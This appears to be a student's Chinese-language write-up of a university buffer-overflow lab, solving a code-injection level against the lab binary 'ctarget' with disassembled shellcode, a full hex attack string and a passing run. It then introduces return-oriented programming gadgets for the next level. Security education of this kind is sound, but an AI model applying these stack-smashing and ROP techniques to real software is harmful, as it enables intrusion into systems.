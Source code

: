 这里我们将cookie的字符串表示放在0x5566f7c8，编译再反汇编得到机器码

```assembly
phase3.o:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
   0:   48 c7 c7 c8 f7 66 55    mov    $0x5566f7c8,%rdi
   7:   68 a0 17 40 00          pushq  $0x4017a0
   c:   c3                      retq
```

查表得出cookie字符串的16进制表示为36 33 31 34 39 33 38  30，注意：以字符串形势比较时不用再反转输入，且字符串应有结尾字符‘\0’，得到攻击字符串如下

```bash
48 c7 c7 c8 f7 66 55 68
a0 17 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
a8 f7 66 55 00 00 00 00
36 33 31 34 39 33 38 30
00
```

转换输入运行

```bash
2017211523@bupt3:~/target117$ ./hex2raw < phase3 | ./ctarget -q
Cookie: 0x63149380
Type string:Touch3!: You called touch3("63149380")
Valid solution for level 3 with target ctarget
PASS: Would have posted the following:
	user id	2017211523
	course	f18
	lab	attacklab
	result	117:PASS:0xffffffff:ctarget:3:48 C7 C7 C8 F7 66 55 68 A0 17 40 00 C3 00 00 00 00 00 00 00 00 00 00 00 A8 F7 66 55 00 00 00 00 36 33 31 34 39 33 38 30 00
```

#### 第二阶段

在此阶段，程序添加了两个现代计算机程序几乎必须的对抗缓缓冲区溢出攻击的措施：  

1.函数栈随机化 ，无法再获取绝对地址。  

2.栈内存的内容被锁定为不可执行。  

故此，我们需要使用ROP(面向返回编程)，即使用程序中本来就存在的代码组成我们需要的操作，再将其地址作为返回值，不断用ret指令返回完成所需操作。

#### phase_4

此关需用ROP方法完成phase_2内容。那么就需要在操作中得到cookie值，那么只有用pop指令了，需要指令为。

```assembly
popq 	%rax
movq	%rax,%rdi
ret
```
